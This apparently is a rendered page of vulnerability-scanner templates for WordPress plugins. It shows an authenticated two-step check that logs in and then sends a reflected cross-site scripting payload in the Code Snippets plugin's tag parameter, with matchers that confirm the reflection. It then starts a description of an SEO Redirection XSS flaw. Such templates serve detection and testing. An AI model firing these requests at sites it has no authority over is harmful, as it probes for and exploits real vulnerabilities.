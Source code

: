 ## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=snippets&tag=</script><script>alert(document.domain)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. \</script>\<script>alert(document.domain)\</script>
  2. toplevel_page_snippets
  3. Search results in tag
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress SEO Redirection \<7.4 - Cross-Site Scripting

## Description

- WordPress SEO Redirection 7.4 does not escape the tab parameter before outputting it back in JavaScript code, leading to a reflected cross-site scripting vulnerability.
